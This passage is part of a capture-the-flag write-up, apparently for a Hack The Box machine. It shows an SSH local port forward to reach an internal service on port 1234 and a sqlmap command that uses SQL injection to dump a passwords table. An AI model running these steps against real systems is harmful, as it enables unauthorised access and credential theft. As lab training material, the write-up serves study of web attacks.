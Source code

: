 What seems odd when you see the output is the port 1234! 

```
http://passmanager.htb:1234/index.php
```

Also we have the GET parameters
```
method=select&username=administrator&table=passwords
```
Seems like it's running locally! 

<img src="local.png">


Let's forward it to our machine with ssh

```
ssh -L 1234:127.0.0.1:1234 development@10.10.10.228
```

<img src="for.png">

The parameters names gives us a hint that it's SQL injection
let's use sqlmap


```
sqlmap -u "http://127.0.0.1:1234/?method=select&username=administrator&table=passwords" --dump
```
<img src="us.png">

<img src="AES.png">
